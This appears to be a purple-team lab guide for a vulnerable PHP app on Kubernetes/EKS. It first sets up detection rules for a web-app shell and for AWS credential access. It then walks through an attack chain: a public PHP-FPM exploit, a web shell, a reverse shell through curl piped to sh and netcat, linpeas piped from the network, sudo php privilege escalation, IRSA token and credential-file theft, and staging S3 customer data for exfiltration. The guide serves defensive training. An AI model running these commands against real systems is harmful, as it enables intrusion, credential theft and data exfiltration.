

## Chapter 1: Application Architecture

1. Evaluate the architecture of the applications and different weaknesses that we may want to monitor:

- [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28layers%7E%28%7E%27issues%7E%27lateral_movement%7E%27public_exposure%29%7Eview%7E%27graph%7Equery%7E%28type%7E%28%7E%27KUBERNETES_CLUSTER%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27ecomm-app-cluster%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ENTITLES%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27IAM_BINDING%29%7Ewhere%7E%28accessTypes%7E%28EQUALS%7E%28%7E%27Data%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28type%7E%28%7E%27DATABASE%7E%27DB_SERVER%7E%27BUCKET%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%29%7EblockName%7E%27Data*20Access%7EblockExpanded%7Efalse%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Ewhere%7E%28validatedInRuntime%7E%28IS_SET%7Etrue%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27SERVES%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27ENDPOINT%29%7Eselect%7Etrue%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28type%7E%28%7E%27SERVICE_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ASSIGNED_TO%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE_BINDING%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SERVICE_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ENTITLES%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27IAM_BINDING%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27BUCKET%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28blockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%7Eoptional%7Etrue%29%29%7Ewhere%7E%28validatedInRuntime%7E%28IS_SET%7Etrue%29%29%7Eselect%7Etrue%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27SERVES%29%29%7Ewith%7E%28type%7E%28%7E%27ENDPOINT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27elb%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29)

## Chapter 2: Detection Engineering

1. Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** Workload Runtime Rule
- **Name:** Shell executed from php-fpm or php container
- **Description:**
  - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
- **Severity:** High
- **Event Type:** Process Execution
  - **Process Names:** `dash` `bash` `sh`
- **Actor > + Add Actor**
  - **Process Names:** `php` `php-fpm`
  - **Container Names:** `php`
- **Create Rule**

3. Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** FIM Rule
- **Name:** Highly privileged AWS credentials file accessed
- **Description:**
- **Severity:** Medium
- **Detection Method:** Runtime FIM
  - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
- **Monitoring Conditions:**
  - **Directory Paths:** `/root/.aws/`
  - **Include:** `credentials`
  - **Attributes:** Open
  - **Coverage:** Both host and container file systems
- **Create Rule**

## Chapter 3: Purple Team Exercise



1. Navigate to the web app in the browser and leave the session open:

- [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

2. Login to attacker box, download public exploit and run it:

```sh
chmod 400 attacker.pem
ssh -i attacker.pem ec2-user@${ATTACKER_IPV4}
go install github.com/neex/phuip-fpizdam@latest
cd ~/go/bin
./phuip-fpizdam http://${APP_URL}/index.php
```

3. Test Shell in Browser:

- Add `?` to the end of the URL in the browser
- Add `a=id`
- Press Enter / Return

  ***

  **NOTE**

  You may have to press enter / return twice in order for the shell to execute.
  The full URL should look like this: http://${APP_URL}/index.php?a=id

  ***

4. Start netcat on Attacker Box:

```sh
nc -lv 1337
```

5. Test Reverse Shell:

- After the `?`, replace `a=id` with:
  - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

6. In Reverse Shell, run the following commands:\*\*

- **User on container host:**

  - `whoami`

  - **Confirm which host you are on:**

  - `uname -a`

- **Validate IRSA (IAM Role for Service Accounts) Access:**

  Identify the EKS service account token

  ```sh
  cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
  ```

  Break up the JSON Web Token (JWT) into it's parts

  ```sh
  jwt=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
  header=$(echo "$jwt" | cut -d '.' -f1)
  payload=$(echo "$jwt" | cut -d '.' -f2)
  signature=$(echo "$jwt" | cut -d '.' -f3)

  printf "Header:\n"
  printf "%s" "$header" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nPayload:\n"
  printf "%s" "$payload" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nSignature (Base64):\n%s\n" "$signature"
  ```

  Assume Role with the IRSA

  ```sh
  RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
  ```

  Validate the active session

  ```sh
  echo $RESPONSE | jq .
  ```

  Set the environment variables

  ```sh
  export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
  export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
  export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
  ```

  Confirm access through session

  ```sh
  aws sts get-caller-identity
  ```

7. List buckets:

- `aws s3 ls`
- `aws s3 ls ${WEB_BUCKET}`
- `aws s3 cp s3://${WEB_BUCKET} /tmp --recursive`

8. Validate the contexts of the file

- `cat /tmp/image.png`

9. Access other credentials file:

   - `cat /root/.aws/credentials/`

10. Test LinPEAS over reverse shell:

- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
- **Can I write anywhere?:**
  - `tmp`
- **What if I run it directly from memory?:**
  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

11. Use php to escalate privileges:

- GTFObin
  ```sh
  CMD="/bin/bash"
  sudo php -r "system('\$\CMD');"
  ```

12. Validate that you were able to escalate privileges to root:

- `whoami`

13. Access credentials file:

- `cat /root/.aws/credentials`

14. Use credentials to access AWS

- `aws sts get-caller-identity`

15. List Buckets and Objects

    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`

16. Stage Data

    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`

17. Exfiltrate Data
